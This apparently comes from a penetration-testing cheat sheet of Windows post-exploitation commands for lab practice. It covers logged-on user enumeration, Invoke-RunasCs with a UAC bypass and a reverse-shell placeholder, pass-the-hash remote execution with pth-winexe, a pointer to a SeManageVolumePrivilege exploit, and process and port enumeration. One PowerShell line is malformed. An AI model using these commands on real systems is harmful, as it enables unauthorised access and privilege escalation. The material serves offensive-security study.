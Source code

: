 #### Who is logged on?

Use PsLoggedon.exe if it's an older machine, such as Server 2012 R2, 2016 (1607), 2019 (1809), and Server 2022 (21H2). Don't trust it if it says that nobody is logged on, but trust it if it says there is somebody.

```bash
.\PsLoggedOn.exe \\file04
```

#### InvokeRunasCs.ps1

If you have credentials for another user on a system, but cannot seem to login as them through any of the traditional methods, use the:

```bash
. .\Invoke-RunasCs.ps1
Invoke-RunasCs svc_mssql trustno1 "cmd /c c:\windows\tasks\svc_mssql.exe" --bypass-uac
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "<reverse shell code>"
```

and execute a reverse shell to get onto the system as them.

#### winexe & pth-winexe

If runas doesn't seem to be working, this is an alternative.

```bash
winexe -U jenkins/administrator //$ip cmd.exe
pth-winexe -U jenkins/administrator //$ip cmd.exe
# pth-wmic & pth-wmis
```

#### Look out for SeManageVolumePrivilege

If you have the SeManageVolumePrivilege, then you may be able to abuse it to get root. Don't forget that you have ONE shot, so don't mess it up.

There are some great examples in Offsec's Access PG Practice write-ups and "https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public?source=post_page-----b95d3146cfe9--------------------------------". 

#### Additional Directory Information

Simple way to get more information about files in directory, such as who owns them:

```bash
dir /a /o /q
```

#### Investigate Process

```bash
get-nettcpconnection | select local*,remote*,state,@{Name="Process";Expression={(Get-Process -Id $_.OwningProcess).ProcessName}}
Get-NetTCPConnection | Where-Object { $_.State -eq "LISTEN" } | select @{Name="Process";Expression={(Get-Process -Id $_.OwningProcess).ProcessName)}, 127.0.0.1, 8000
Get-Process -Id (Get-NetTCPConnection -LocalPort 8000).OwningProcess
Get-Process -Id (Get-NetUDPEndpoint -LocalPort 8000).OwningProcess
netstat -a -b
```
